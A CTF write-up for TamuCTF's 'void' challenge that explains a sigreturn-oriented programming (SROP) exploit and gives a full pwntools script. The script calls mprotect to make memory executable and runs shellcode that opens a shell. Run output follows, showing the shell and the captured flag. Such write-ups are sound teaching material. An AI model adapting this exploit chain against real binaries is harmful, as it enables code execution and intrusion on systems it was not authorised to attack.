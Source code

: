 ## Solution

I didn't solve this one during TamuCTF but I saw ```sky#0004```'s [solve in
Discord](https://discord.com/channels/962465945882853407/965296241846145114/965322156965761054)
and went back and relooked at the problem with the benefit of their solution.
I based my solution largely on their approach.

I had been stuck on the fact that I needed to call ```sys_mprotect``` to
enable RWX permissions. Since there was a ```syscall, ret```, I was hopeful I
might be able to ```pop sys_rt_sigreturn (0xf) into rax```, use SROP to call
```sys_mprotect```, and set the ```rdi, rsi, rdx``` registers . However, there
were no gadgets to write to rax. I made the mistake of not realizing that
```sys_read``` would return the bytes read into rax.

After figuring that out, putting the exploit together is pretty
straightforward. First make ```sys_read``` syscall to set rax=0xf. Next, use
SROP for ```sys_mprotect``` and mark the address of the shellcode as RWX.
Return in the program's entry, adjust the stack, and execute the shellcode.

```python  
from pwn import *  
import time

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]  
e = context.binary = ELF(binary)  
r = ROP(e)

gs = '''  
break *0x401018  
continue  
'''

def start():  
   if args.GDB:  
       return gdb.debug(e.path, gdbscript=gs)  
   elif args.REMOTE:  
       return remote("tamuctf.com", 443, ssl=True, sni="void")  
   else:  
       return process(e.path)

p = start()

'''0x401000: mov rax, 0; mov rdi, 0; mov rsi, rsp; mov rdx, 0x7d0; syscall;  
  rax = sys_read, rdi = fd = stdin, rsi = char* = 'rsp', rdx = len = 0x7d40
'''  
sys_read = 0x401000

'''0x401018: syscall; ret'''  
syscall_ret = 0x401018

start = 0x400020  
entry = 0x400018

'''stack_adjust + shellcode '''  
shellcode = asm('add rsp,0x68')  
shellcode += asm(shellcraft.sh())

def pause(stage):  
   print("[+] Pausing Before Sending Stage: %s" %stage)  
   if args.GDB:  
      raw_input("[+] Press [Enter] To Send")  
   else:  
      time.sleep(0.1)

def srop_mprotect():  
   chain = p64(sys_read)  
   chain += p64(syscall_ret)

   '''sys_mprotect(rdi=start,rsi=len(shellcode),rdx=prot=RWX)'''  
   frame = SigreturnFrame()  
   frame.rip = syscall_ret  
   frame.rsp = entry  
   frame.rax = constants.SYS_mprotect  
   frame.rdi = e.address  
   frame.rsi = len(shellcode)  
   frame.rdx = 7

   p.send(chain + bytes(frame))

def read_15_bytes():  
   pause("Reading 15 Bytes (rax=0xf=sys_rt_sigreturn) ")  
   chain=p64(syscall_ret).ljust(constants.SYS_rt_sigreturn)  
   p.send(chain)

def exec_shellcode():  
   pause("Shellcode")  
   p.send(p64(start) + shellcode)

srop_mprotect()  
read_15_bytes()  
exec_shellcode()

p.interactive()  
```

Running the exploit returns the flag

```  
python3 pwn-void.py BIN=./void REMOTE  
[*] '/root/workspace/tamu-ctf/void/void'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[*] Loaded 2 cached gadgets for './void'  
[+] Opening connection to tamuctf.com on port 443: Done  
[+] Pausing Before Sending Stage: Reading 15 Bytes (rax=0xf=sys_rt_sigreturn)  
[+] Pausing Before Sending Stage: Shellcode  
[*] Switching to interactive mode  
$ cat flag.txt  
gigem{1_6u355_7h475_h0w_w3_3xpl017_17}  
``